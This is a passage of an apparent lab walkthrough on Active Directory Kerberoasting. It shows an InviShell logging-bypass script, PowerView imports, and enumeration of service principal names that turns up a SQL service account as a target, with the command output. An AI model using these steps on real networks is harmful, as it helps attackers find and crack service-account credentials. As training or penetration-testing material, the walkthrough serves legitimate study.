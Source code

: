 
### Domain Privilege Escalation

#### Domain Privilege Escalation | Kerberoasting (with PowerView, Rubeus, John)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainComputer 'dbserver31' | Select-Object -ExpandProperty serviceprincipalname`:
```
TERMSRV/DBSERVER31
TERMSRV/dbserver31.tech.finance.corp
WSMAN/dbserver31
WSMAN/dbserver31.tech.finance.corp
RestrictedKrbHost/DBSERVER31
HOST/DBSERVER31
RestrictedKrbHost/dbserver31.tech.finance.corp
HOST/dbserver31.tech.finance.corp
```

`Get-DomainUser -SPN`:
```
[SNIP]

logoncount            : 8
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=sqlserver sync,CN=Users,DC=tech,DC=finance,DC=corp
objectclass           : {top, person, organizationalPerson, user}
displayname           : sqlserver sync
lastlogontimestamp    : 2/4/2022 5:36:37 AM
userprincipalname     : sqlserversync
samaccountname        : sqlserversync👤
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/6/2022 7:47:34 AM
instancetype          : 4
usncreated            : 26345
objectguid            : 49050a8e-94f9-4ef3-9fdb-fc488cddf552
sn                    : sync
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 2/4/2022 1:16:06 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=finance,DC=corp
dscorepropagationdata : {2/4/2022 1:16:34 PM, 2/4/2022 1:16:06 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname📌: MSSQLSvc/dbserver31.tech.finance.corp📌
givenname             : sqlserver
usnchanged            : 37100
lastlogon             : 2/5/2022 11:48:16 PM
badpwdcount           : 0
cn                    : sqlserver sync
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-1325336202-3661212667-302732393-1111
primarygroupid        : 513
pwdlastset            : 2/5/2022 6:16:18 AM
name                  : sqlserver sync

[SNIP]
```
